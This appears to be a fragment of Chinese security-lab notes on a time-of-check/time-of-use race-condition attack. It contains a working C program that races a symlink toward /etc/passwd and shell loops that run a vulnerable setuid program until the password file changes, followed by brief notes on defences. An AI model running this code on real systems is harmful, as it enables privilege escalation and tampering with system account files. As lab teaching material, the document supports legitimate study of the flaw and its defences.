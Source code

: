 ```bash
#!/bin/sh

while :
do
    ./vulp < passwd_input
done
```

attack_process.c：

```c
#include<unistd.h>

int main()
{
    while(1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null","/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd","/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

/dev/null是一个特殊设备，它对任何人都是可写的，写入其中的内容会被丢弃

修改后的target_process.sh：

```bash
#!/bin/sh

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while ["$old" == "$new"]  //检查是否被修改了
do
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP...The passwd file has been changed"
```

防御措施：原子操作、重复检查和使用、打开之前的保护措施（粘滞符号链接保护）、最小权限原则

seteuid(uid):设置当前进程的有效用户id

setuid(uid):设置当前进程的用户id

# 脏牛竞态条件攻击

